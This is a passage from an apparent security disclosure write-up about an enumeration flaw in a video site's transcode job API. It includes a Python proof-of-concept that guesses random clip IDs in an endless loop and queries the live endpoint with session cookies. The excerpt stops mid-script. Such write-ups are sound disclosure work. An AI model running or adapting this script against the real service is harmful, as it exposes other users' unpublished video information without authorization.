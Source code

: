 From the response, we could also see that it’s returning information:

1. `id`; video ID
2. `status`: transcode status
3. `published`: false
4. `transcode_status`; transcode status text (`Finished`, `Error`)

## PoC Code

I also created simple PoC code written in Python by using random 7 digits to guess the `clip_id`. So basically the flow is:

1. Get random 7 digits `clip_id`
2. Fetch the Clips Transcode Job by `clip_id`to get the `transcode_job_id` & `video_id`
3. Fetch the Video Transcode Job Status by `transcode_job_id`
4. Fetch the Video Transcode Status by `video_id`
5. Fetch the Video Detail by `video_id` to get the Publish Status, Title & Publish Date.

import requests  
import time  
from random import randint  
  
cookie = "access_token={{access_token}}; remember_user_token={{remember_user_token}}; _vidio_session={{_vidio_session}}"  
  
x_api_key = "{{x_api_key}}"  
  
def random_with_N_digits(n):  
    range_start = 10**(n-1)  
    # range_end = (10**n)-1  
    range_end = 4000000  
    return randint(range_start, range_end)  
  
while True:  
    t = time.localtime()  
    current_time = time.strftime("%H:%M:%S", t)  
    print(current_time)  
  
    # Get random 7 digits clip_id  
    clip_id = str(random_with_N_digits(7))  
    url = "https://www.vidio.com/clips/" + clip_id + "/transcode_job.json"  
  
    response = requests.get(  
        url=url,  
        headers={  
            'cookie': cookie  
        }  
    )  
  
    print("URL: " + url)  
    print("Response: " + response.text + "\n")  
  
    if response.status_code == 200:  
  